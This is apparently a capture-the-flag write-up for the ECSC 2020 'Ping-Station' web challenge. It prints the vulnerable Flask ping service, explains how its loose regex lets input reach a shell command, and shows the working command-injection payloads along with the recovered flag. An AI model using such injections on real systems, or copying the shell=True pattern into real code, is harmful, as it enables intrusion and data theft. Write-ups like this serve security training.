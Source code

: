 # Ping-Station
## Statement
> Description
>> Just another ping service to audit.

> About the challenge
>> The challenge was initially published at European Cyber Security Challenge 2020 - the national phase organised in Romania. The challenge was created by Bit Sentinel.

>> European Cyber Security Challenge (ECSC) is the annual European event that brings together young talent from across Europe to have fun and compete in cybersecurity!

Author: **@Betaflash**

Login: http://34.159.73.xxx:32011

# Source-Code
```Python
from flask import Flask, render_template, url_for, request, redirect

import subprocess
import re
import string

app = Flask(__name__)

def is_valid_ip(ip):
    ipv = re.match(r"^(\d{1,3})\.(\d{1,3})\.(\S{1,9})|(/s)\.(\d{1,3})$",ip)
    return bool(ipv) 

@app.route('/', methods=['POST', 'GET'])
def index():
    if request.method == 'POST':
        ip = request.form['content']
        if (is_valid_ip(ip)==True):
            for i in range(0,2):
                return '<pre>'+subprocess.check_output("ping -c 4 "+ip,shell=True).decode()+'</pre>'
                break
        else:
            return"That's not a valid IP"
    else:
        return render_template('index.html')

if __name__ == "__main__":
    app.run(host = "0.0.0.0")
```

## Analysis

When reaching the page with a GET request we encounter a simple webpage with a POST form.

We may try to reproduce a POST request and see what happens.

Using such request with a valid ip:
```http
POST / HTTP/1.1
Host: 34.159.73.xxx:32011
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.159.73.xxx:32011
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://34.159.73.xxx:32011/
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

content=174.xxx.4.22
```
We get the following response:
```http
HTTP/1.0 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 290
Server: Werkzeug/1.0.1 Python/3.5.2
Date: Thu, 09 May 2024 09:10:11 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Now let's look a little bit further on the code.

If our payload is confirmed, the server will execute this whole command: "ping -c 4 "+ip

Which means if we add a valid command in ip affter the ping command, it should be executed.

To be valid, the parameter `ip` should satisfy this following condition: ```re.match(r"^(\d{1,3})\.(\d{1,3})\.(\S{1,9})|(/s)\.(\d{1,3})$",ip)```.

The problem in this regex are the `\S{1,9}` caracters which gives us some free space to work with, and the `|` which separates the first and second sequence, which means our sequence doesn't have to end with numbers while it matches the first part (before |).

In fact if our parameter starts with a valid sequence 127.0. and any 9 caracters sequence, it should be validated.

## Exploitation

I tryed using `content=127.0.0.1;ls` which worked, reveling a `flag` file in the current directory

Then, `content=127.0.0.1;cat flag`also matches, because `content=127.0.0.1;cat` is a valid sequence.

This payload gives us the flag:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 81
Server: Werkzeug/1.0.1 Python/3.5.2
Date: Thu, 09 May 2024 09:35:15 GMT

<pre>ECSC{b1c0bc8e5e1b4c81199ad3c41bef8b69bea3ab86ecfb08c211d90ace0ff98df3}</pre>
```

Flag: **ECSC{b1c0bc8e5e1b4c81199ad3c41bef8b69bea3ab86ecfb08c211d90ace0ff98df3}**